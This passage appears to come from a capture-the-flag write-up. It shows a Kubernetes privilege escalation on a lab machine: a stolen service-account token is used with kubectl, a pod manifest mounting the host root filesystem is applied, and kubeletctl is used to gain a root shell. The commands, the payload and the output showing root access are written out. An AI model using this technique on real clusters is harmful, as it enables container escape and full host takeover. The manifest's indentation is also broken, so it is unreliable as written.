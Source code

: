 ```ruby
kubectl get pods nginx --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$(cat token) -o json
```
####
The config have a specifique data, like namespace, image, path, etc... So having that in mind effectively we could try to apply a new config to mount the **nginx image** over `/` path, if we run this container over `/` path and not over `/var/run/secrets/kubernetes.io/serviceaccount`, we can be the root user. The structure is this:
####
<div class="warning">

> The format not work in **JSON**, this need to be changed a **YAML** format.
</div>

####
```ruby
echo '
    apiVersion: v1
    kind: Pod
    metadata:
    name: shell
    namespace: default -> Namespace
    spec:
    containers:
    - name: shell
        image: nginx:1.14.2 -> Image container
        volumeMounts:
        - mountPath: /mnt
        name: hostfs
    volumes:
    - name: hostfs
        hostPath:
        path: / -> This is the mount path
    automountServiceAccountToken: true
    hostNetwork: true
' > payload.yaml
```
####
To apply this information we need to execute this:
####
```ruby
kubectl apply -f payload.yaml --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$(cat token) --validate=false

Output ->
    pod/shell created
```
#### 
How we execute the command previously, now we need to do the same:
####
```ruby
./kubeletctl_linux_amd64 exec "id" --server 10.10.11.133 -p shell -c shell

Output -> 
    uid=0(root) gid=0(root) groups=0(root)
```
####
Now we are the **root** user. Is only to find the root flag in the target machine. Remenber, the path is not the common, now is in `/mnt` directorie, is here where run the `/` path. Also to gain access like root user is execute the next command: `./kubeletctl_linux_amd64 exec "bash" --server 10.10.11.133 -p shell -c shell`.